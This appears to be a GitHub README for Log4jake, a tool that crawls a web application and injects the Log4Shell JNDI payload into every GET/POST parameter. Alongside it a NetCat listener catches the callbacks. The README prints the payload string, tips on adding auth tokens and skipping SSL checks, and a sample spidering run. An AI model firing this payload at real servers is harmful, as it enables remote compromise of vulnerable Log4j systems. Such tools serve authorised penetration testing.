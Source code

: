 # Log4jake

Log4jake works by spidering a specified web application for GET/POST requests. It will then automatically execute the requests, filling any discovered parameters with the ${jndi:ldap://<ip>:389} Log4j payload. Note that this tool is designed to work simultaneously with a NetCat listener.
  
If you want to test behind authentication, use the commented '#req.add_header('Authorization', "token_goes_here")' line to add the proper token. If you are experiencing SSL errors, use the commented '#context = ssl._create_unverified_context()' line in addition to 'resp = urllib.request.urlopen(req, context=context)'
  
  Syntax:
```
  └─$ python3 log4jake.py https://10.10.3.50
Remember to start NetCat Listener on port 389!!!
Enter IP address of your Listener: 10.10.3.4  

Starting Web Spider
-------------------

SPIDERING -> https://10.10.3.50/
SPIDERING -> https://10.10.3.50/signup
POST /signup
SPIDERING -> https://10.10.3.50/login
POST /login_exec
SPIDERING -> https://10.10.3.50/clients
SPIDERING -> https://10.10.3.50/admin/website
SPIDERING -> https://10.10.3.50/cdn-cgi/l/email-protection#9ef4f1f0defdf8ffedf7eafbedb0fdf1f3
SPIDERING -> https://10.10.3.50/forgotpassword
POST /mailer5

```

